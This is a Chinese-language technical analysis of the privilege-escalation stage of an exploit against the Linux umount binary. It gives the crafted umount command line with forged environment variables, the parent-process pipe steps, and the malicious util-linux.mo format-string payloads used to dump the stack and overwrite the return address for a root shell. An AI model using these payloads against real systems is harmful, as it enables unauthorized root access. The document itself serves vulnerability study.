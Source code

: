 **提权阶段(attemptEscalation)**
<li>准备工作
<ul>
- 创建用于和子进程通信的pipe用于读取子进程stdout和stderr
- fork出子进程(下文称`umount进程`)，在子进程中设置pipe，切换到`us_proc进程`的工作目录，execve执行umount，具体执行命令：
```
AANGUAGE=X.X AANGUAGE=X.X (省略...共255次) LC_ALL=C.UTF-8 /bin/umount  /run /run /run /run /run /run /run /run /run /run down LABEL=78 LABEL=789 LABEL=789a LABEL=789ab LABEL=789abc LABEL=789abcd LABEL=789abcde LABEL=789abcdef LABEL=789abcdef0 LABEL=789abcdef0
```
<li>开始提权
<ul>
- 第0步，父进程开始持续读取umount进程的输出，等待”AAAAAAAA”字符串的出现
- 第1步，读取完整的栈内存数据，并开始解析，构造第二阶段的util-linx.mo文件内容并写入
- 第2步，持续等待，直到在超时时间内，第二阶段util-linux.mo文件内容被umount读取
- 第3步，读取剩下的umount输出防止其被阻塞
<li>umount部分：
<ul>
- umount启动后，解析符号链接down会触发越界写，使堆内存中存放的正常文件路径失效，迫使其加载位于相对目录C.UTF-8/LC_MESSAGES/中特制的util-linux.mo文件，其中的 poisonous format string 会将栈内存dump到stderr，同时还会通过指向环境变量的指针，将”AANGUAGE=X.X”修改为”LANGUAGE=X.X”
- umount继续执行，由于环境变量被修改，这将使umount读取第二阶段的util-linux.mo文件(位于X.X/LC_MESSAGES目录下，由于该文件为fifo named pipe，所以这里umoun会阻塞等待其被写入数据)
- umount进程在父进程第1步完成后恢复执行，读取第二阶段mo文件，其中的格式化字符串将会修改umount的返回地址，通过setdate+execl实现ROP，最终执行DATEMSK文件中的exp进程，利用umount提升exp可执行文件的权限后执行，生成root shell完成提权
```
"AA%6$lnAAAAAA%016lx(省略... 共256个%016lx)%016lx%1$68hhx%256$hhn"
```
- 修改返回地址使用的格式化字符串
```
debian@debian:~/Desktop/work$ msgunfmt "/proc/1609/cwd/(unreachable)/tmp/__gconv_find_shlib/X.x/LC_MESSAGES/util-linux.mo" -o util-linux.po
debian@debian:~/Desktop/work$ cat util-linux.po 
msgid ""
msgstr ""
"Language: enn"
"MIME-Version: 1.0n"
"Content-Type: text/plain; charset=UTF-8n"
"Content-Transfer-Encoding: 8bitn"


msgid "%s: mountpoint not found"
msgstr ""
"%67$hn%71$hn%1$18640.18640s%68$hn%1$13200.13200s%64$hn%1$906.906s%66$hn%70$hn"
"%1$1567.1567s%65$hn%1$1.1s%69$hn%1$31222.31222s%1$5414.5414s%1$s%1$s%63$hn"
"%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%37$hn-%35$lx-%37$lx-%62$lx-%63$lx-%64$lx-"
"%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%78$sn"


msgid "%s: not mounted"
msgstr "BBBB5678%3$sn"


msgid ""
"%s: target is busyn"
"        (In some cases useful info about processes thatn"
"         use the device is found by lsof(8) or fuser(1).)"
msgstr "BBBBABCD%sn"
```
